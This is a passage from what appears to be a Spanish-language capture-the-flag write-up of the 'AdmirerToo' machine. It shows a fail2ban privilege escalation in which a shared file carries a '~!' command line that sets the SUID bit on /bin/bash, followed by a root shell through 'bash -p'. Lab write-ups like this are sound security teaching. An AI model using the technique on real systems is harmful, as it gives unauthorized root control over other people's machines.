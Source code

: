 ![imagen12](/assets/images/AdmirerTwo/admirer12.png)

Con esto verificamos que tenemos conexión, solo faltaría aplicar la vulnerabilidad compartiendo un archivo donde pongamos ~! y algún comando que queramos, en este caso vamos a hacer la bash suid, después de compartido el archivo, tenemos que proceder a usar ssh para que fail2ban nos bloqué y así poderese ejecutar.

```shell
❯ /usr/bin/cat pwned
lo que sea
~! chmod u+s /bin/bash
```
Esperamos un momento a que se nos quite el bloqueo y volvemos a logearnos y habremos conseguido suid a la bash.

```shell
jennifer@admirertoo:/usr/local/etc$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
jennifer@admirertoo:/usr/local/etc$ bash -p
bash-5.0# whoami
root
```

